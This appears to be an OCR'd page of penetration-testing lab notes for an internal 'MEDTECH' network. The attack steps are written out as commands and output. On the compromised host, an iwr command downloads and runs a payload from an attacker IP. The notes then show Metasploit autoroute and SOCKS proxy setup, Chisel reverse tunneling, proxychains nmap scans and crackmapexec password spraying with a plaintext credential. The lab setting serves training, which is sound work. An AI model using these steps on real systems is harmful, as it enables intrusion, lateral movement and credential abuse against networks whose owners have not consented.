 set ExitonSession False
# WEB02
PS C:\TEMP> iwr -uri http://192.168.45.195:8088/cute.exe -Outfile cute.exe
PS C:\TEMP> .\cute.exe
# KALI
# While it had established the sessions, lets create a route first
msf6 exploit(multi/handler) > use multi/manage/autoroute
msf6 post(multi/manage/autoroute) > show options
msf6 post(multi/manage/autoroute) > set session 1
msf6 post(multi/manage/autoroute) > run
[+] Route added to subnet 192.168.219.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 172.16.219.0/255.255.255.0 from host's routing table.
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1081
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
# Open new shell
sudo nano /etc/proxychains4.conf
...
socks5 127.0.0.1 1081
...
=====================================================

[Chisel Dynamic Port Forwarding]
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

./chisel server -p 8889 --reverse --socks5
./chisel.exe client 192.168.45.195:8889 R:socks
# Open new shell
sudo nano /etc/proxychains4.conf
...
socks5 127.0.0.1 1080
...

# Lets try to access MEDTECH internal network
proxychains -q nmap -sT -Pn 172.16.219.10-14
proxychains -q nmap -sT -Pn 172.16.219.82-83
code targets.txt

# Crackmapexec 
https://notes.benheater.com/books/active-directory/page/crackmapexec
proxychains crackmapexec smb targets.txt -u joe -p 'Flowers1' -d medtech.com --continue-on-success
...
SMB         172.16.219.10   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:medtech.com) (signing:True) (SMBv1:False)
SMB         172.16.219.11   445    FILES02          [*] Windows Server 2022 Build 20348 x64 (name:FILES02) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.219.12   445    DEV04            [*] Windows Server 2022 Build 20348 x64 (name:DEV04) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.219.13   445    PROD01           [*] Windows Server 2022 Build 20348 x64 (name:PROD01) (domain:medtech.com) (signing:False) (SMBv1:False)